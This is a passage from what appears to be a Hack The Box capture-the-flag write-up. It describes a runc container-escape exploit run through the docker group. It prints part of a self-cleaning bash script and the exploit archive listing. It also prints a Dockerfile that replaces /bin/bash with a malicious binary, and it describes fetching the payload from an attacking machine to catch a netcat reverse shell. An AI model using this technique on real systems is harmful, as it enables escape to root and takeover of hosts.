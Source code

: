 ```bash
    if [ $(docker ps -f "name=pwn" | wc -l) -ne 2 ]; then
        docker image rm runc_pwn:3
        rm -f *
        break
    fi
done
```

The script will download `exploit.tar` from my attacking machine running Python HTTPServer. It'll extract the files from `exploit.tar`, build a Docker image, run a container, and then run `runc` through `docker exec`. On my attacking machine, I'll set up a `netcat` listener to catch the payload which is a reverse shell. Upon exiting the reverse shell, the script will clean up itself.

Here's the contents of `exploit.tar`.

<div class="filename"><span>exploit.tar</span></div>

```
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2020-05-12 13:14:56 .....           17          512  bash_evil
2020-05-12 13:19:25 .....          319          512  Dockerfile
2020-05-12 13:32:26 .....        16872        16896  new_runc
2020-05-12 13:32:19 .....          649         1024  new_runc.c
2020-05-12 13:14:56 .....        13352        13824  overwrite_runc
2020-05-12 13:14:56 .....         3631         4096  overwrite_runc.c
2020-05-12 13:14:56 .....          416          512  replace.sh
------------------- ----- ------------ ------------  ------------------------
2020-05-12 13:32:26              35256        37376  7 files
```

The contents of Dockerfile is crucial in running the exploit successfully.

<div class="filename"><span>Dockerfile</span></div>

```
FROM ubuntu:latest

COPY replace.sh /
RUN ["chmod", "+x", "/replace.sh"]
COPY overwrite_runc /overwrite_runc
RUN ["chmod", "+x", "/overwrite_runc"]
COPY new_runc /

RUN ["mv", "/bin/bash", "/bin/bash_original"]
COPY bash_evil /bin/bash
RUN ["chmod", "+x", "/bin/bash"]

ENTRYPOINT ["/bin/bash_original", "/replace.sh"]
```

It builds an image tagged as `runc_pwn:3` from the `ubuntu:latest` image on the machine. Not surprising, `luffy`, as a member of the `docker` group, has access to run `docker`.

{% include image.html image_alt="f4f880c4.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/f4f880c4.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/251
[2]: https://www.hackthebox.eu/home/users/profile/23227
[3]: https://www.hackthebox.eu/